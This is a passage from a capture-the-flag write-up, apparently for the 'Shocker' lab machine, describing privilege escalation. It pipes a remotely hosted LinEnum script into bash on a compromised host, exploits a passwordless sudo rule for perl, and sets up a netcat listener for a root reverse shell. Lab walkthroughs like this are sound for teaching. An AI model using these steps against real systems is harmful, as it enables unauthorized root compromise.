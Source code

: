 For privilege escalation, it is always important to go and run some sort of enumeration tool such as `LinEnum` or `linpeas`. These tools will enumerate for misconfigurations, exploits, interesting config files, etc. 

Personally, I am going to use `LinEnum`. If you do not already have `LinEnum` or `linpeas` they can be cloned running:

```
git clone https://github.com/rebootuser/LinEnum.git
```

Or you can run this to get linpeas:

```
git clone https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
```

After you have cloned one of these tools, simply navigate to the directory where the file is (for me it is `/opt/privilege-escalation-awesome-scripts-suite/linPEAS`) and host a simple HTTP server using Python.

```
python -m SimpleHTTPServer 80
```

Now the awesome thing about just having a simple HTTP server is that on the compromised host we have a shell on, we can use `curl` to pipe the `LinEnum.sh` file to `bash` and it just runs on the compromised host without having to download the file onto the host which is amazing. On the compromised host I ran the following command:

```
curl http://10.10.14.36/LinEnum.sh | bash
```

Scrolling down the output of `LinEnum` I see something interesting:

```
[+] We can sudo without supplying a password!
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl


[+] Possible sudo pwnage!
/usr/bin/perl
```

We can run `perl` under the path `/usr/bin/perl` as `sudo` with no password. This should be an easy pwn. Using [PayloadsAllTheThings' Reverse Shell cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#perl) there is a section on how to get a reverse shell using `perl`. All we need to do is change the IP address on the command, set up a Netcat listener on port 4242 on our host, and run the perl command on the compromised host and we should get root!

```
nc -lvnp 4242
```
